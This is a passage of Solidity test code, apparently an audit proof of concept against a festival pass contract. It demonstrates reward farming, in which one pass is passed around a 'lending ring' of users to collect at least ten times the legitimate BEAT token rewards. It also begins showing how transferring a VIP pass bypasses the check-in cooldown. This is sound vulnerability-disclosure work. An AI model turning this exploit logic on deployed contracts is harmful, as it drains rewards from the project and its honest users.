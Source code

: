```Solidity
            // Transfer to next user for continued exploitation  
            if (i < lendingRing.length - 1) {
                address nextUser = lendingRing[i];
                vm.prank(currentHolder);
                festivalPass.safeTransferFrom(currentHolder, nextUser, BACKSTAGE_PASS, 1, "");
                currentHolder = nextUser;
            }
        }
        
        // Calculate total damage
        console.log("\n=== LARGE-SCALE EXPLOITATION RESULTS ===");
        uint256 totalBEATFarmed = 0;
        
        for (uint256 i = 0; i < lendingRing.length; i++) {
            uint256 userBalance = beatToken.balanceOf(lendingRing[i]);
            if (i == 0) userBalance -= 15e18; // subtract welcome bonus
            totalBEATFarmed += userBalance;
            console.log("User", i, "total BEAT:", userBalance);
        }
        
        uint256 legitimateTotal = 2 * BASE_REWARD * BACKSTAGE_MULTIPLIER; // 2 performances, 1 person
        console.log("Total BEAT farmed:", totalBEATFarmed);
        console.log("Legitimate total (2 performances, 1 person):", legitimateTotal);
        console.log("Exploitation multiplier:", totalBEATFarmed / legitimateTotal);
        
        assertGe(totalBEATFarmed, legitimateTotal * 10, "Should farm >=10x legitimate rewards");
    }
    
    function testCooldownBypassThroughLending() public {
        console.log("=== COOLDOWN BYPASS THROUGH PASS LENDING ===\n");
        
        // Alice buys VIP pass
        vm.prank(alice);
        festivalPass.buyPass{value: VIP_PRICE}(VIP_PASS);
        
        // Create overlapping performances to test cooldown bypass
        vm.startPrank(organizer);
        uint256 perf1 = festivalPass.createPerformance(block.timestamp + 1 hours, 3 hours, BASE_REWARD);
        uint256 perf2 = festivalPass.createPerformance(block.timestamp + 1 hours, 3 hours, BASE_REWARD);
        vm.stopPrank();
        
        vm.warp(block.timestamp + 90 minutes);
        
        // Alice attends performance 1
        console.log("Alice attends performance 1");
        vm.prank(alice);
        festivalPass.attendPerformance(perf1);
        console.log("Alice lastCheckIn:", festivalPass.lastCheckIn(alice));
        
        // Alice tries to attend performance 2 immediately (should fail due to cooldown)
        console.log("\nAlice tries performance 2 immediately:");
        vm.prank(alice);
        vm.expectRevert("Cooldown period not met");
        festivalPass.attendPerformance(perf2);
        console.log(" Cooldown protection working");
        
        // Alice transfers pass to Bob to bypass cooldown
        console.log("\nAlice transfers pass to Bob to bypass cooldown");
        vm.prank(alice);
        festivalPass.safeTransferFrom(alice, bob, VIP_PASS, 1, "");
```